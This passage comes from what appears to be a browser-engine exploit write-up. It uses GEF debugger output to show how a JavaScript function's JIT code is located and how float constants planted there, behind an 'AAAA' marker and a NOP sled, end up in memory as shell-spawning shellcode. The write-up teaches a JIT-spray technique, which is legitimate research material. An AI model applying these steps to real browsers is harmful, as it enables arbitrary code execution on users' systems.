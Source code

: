 ```
1362e6600860
js>
 
gef➤  tele 0x1362e6600860
0x001362e6600860│+0x0000: 0x00209976a3d160  →  0x00209976a3c0a0  →  0x0056278d78d150  →  0x0056278d845433  →  "Function"
0x001362e6600868│+0x0008: 0x0056278c099088  →  <emptyObjectSlotsHeaders+8> add BYTE PTR [rax], al
0x001362e6600870│+0x0010: 0x0056278c098828  →  <emptyElementsHeader+16> add BYTE PTR [rax], al
0x001362e6600878│+0x0018: 0xfff88000000000a0
0x001362e6600880│+0x0020: 0xfffe209976a3f038
0x001362e6600888│+0x0028: 0x00209976a68150  →  0x002762b3c15cb0  →  0x0fc4f640ec8b4855
0x001362e6600890│+0x0030: 0xfffb209976a652a0
0x001362e6600898│+0x0038: 0x007f71b6cdca18  →  0x007f71b6cdc000  →  0x007f71b6c18000  →  0x0000000000000000
0x001362e66008a0│+0x0040: 0x00209976a6c1c0  →  0x00209976a3c2c8  →  0x0056278d793a90  →  0x0056278bf5b763  →  "BigUint64Array"
0x001362e66008a8│+0x0048: 0x0056278c099088  →  <emptyObjectSlotsHeaders+8> add BYTE PTR [rax], al
```

This gives us the address of the JSFunction object of the function. When we look at offset 0x28 we can see an interesting pointer to a heap region. This is the `jitInfo` pointer (`JSFunction.u.native.extra.jitInfo`) and points to the JIT code of the function at `0x002762b3c15cb0`. This is likely more than just our shellcode though since we just defined constants and its just treated as data at this point. We can disassemble at that address as code and notice that this looks like “real” instructions and not some random data:

```
x/100i 0x002762b3c15cb0
 
0x2762b3c15cb0:      push   rbp
0x2762b3c15cb1:      mov    rbp,rsp
0x2762b3c15cb4:      test   spl,0xf
0x2762b3c15cb8:      je     0x2762b3c15cbf
0x2762b3c15cbe:      int3
   ...
```

So let’s search for our marker and compare the pointers:

```
gef➤  grep 0x41414141
...
0x2762b3c16d90 - 0x2762b3c16d94  →   "AAAA"
...
```

We calculate: `0x2762b3c16d90 - 0x002762b3c15cb0 = 0x10E0`. This means the JIT area of this function is actually pretty big but if search forward through it we would eventually find our marker. Let’s see if the constants ended up in memory as our shellcode:

```
x/20xg 0x2762b3c16d90
 
0x2762b3c16d90: 0x0000000041414141      0x9090909090909090
0x2762b3c16da0: 0x732f6e69622fb848      0x66525f5450990068
0x2762b3c16db0: 0x16e8525e54632d68      0x2f6e69622f000000
...
```
